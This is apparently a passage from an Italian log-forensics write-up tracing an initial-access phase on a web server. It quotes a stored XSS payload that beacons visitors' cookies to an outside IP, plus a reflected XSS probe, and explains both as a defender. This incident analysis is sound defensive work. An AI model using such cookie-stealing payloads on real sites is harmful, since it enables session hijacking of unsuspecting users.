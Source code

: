 
# Logs

Web server

![ ](../image/3a.png)

Backend/application log

![ ](../image/3b.png)

auditd, DB query, application audit log

![ ](../image/3c.png)


# Accesso Iniziale / Iniezione
```
Accesso Iniziale / Iniezione
 └── 08:58:02 web01 php-fpm → Comment created by guest (203.0.113.77)
       Payload = <script> new Image().src="https://203.0.113.77/beacon?c="+document.cookie </script> (trace_id=xss-A)
 └── 09:03:47 web01 nginx → Reflected XSS test: /search?q=<script>alert(1)</script> (trace_id=xss-B)
```

Alle 08:58:02 noto un evento sospetto nei log di web01. Un utente guest, connesso dall’IP 203.0.113.77, lascia un commento su un prodotto. A prima vista sembra un normale commento, ma guardando meglio il contenuto scopro che non si tratta di testo comune. Dentro al campo del commento c’è uno script JavaScript malevolo:
`<script>new Image().src="https://203.0.113[.]77/beacon?c="+document[.]cookie</script>`
Questo significa che chiunque aprirà la pagina contenente quel commento si ritroverà ad eseguire del codice non autorizzato. In pratica, l’attaccante sta cercando di sfruttare una vulnerabilità di tipo Stored XSS (Cross-Site Scripting persistente): il codice rimane salvato nel database e verrà eseguito da altri utenti più avanti. È già un chiaro segnale che il sito non ha adeguate misure di sanitizzazione sugli input degli utenti.
Pochi minuti dopo, alle 09:03:47, arriva un’altra richiesta sospetta, questa volta dall’IP 198.51.100.44. L’utente prova a cercare qualcosa usando la funzione di ricerca del sito, ma dentro il parametro “q” non inserisce una parola normale. Al contrario, manda un frammento di codice:
`<script>alert(1)</script>`
Si tratta di un test classico, un Reflected XSS, usato spesso dagli attaccanti per capire se il sito risponde subito eseguendo script. In questo caso, se la pagina mostra il risultato della ricerca senza pulire l’input, lo script viene riflesso direttamente e scatta un pop-up nel browser. È come un “ping” per verificare se la porta è aperta.
A questo punto ho due indizi forti:
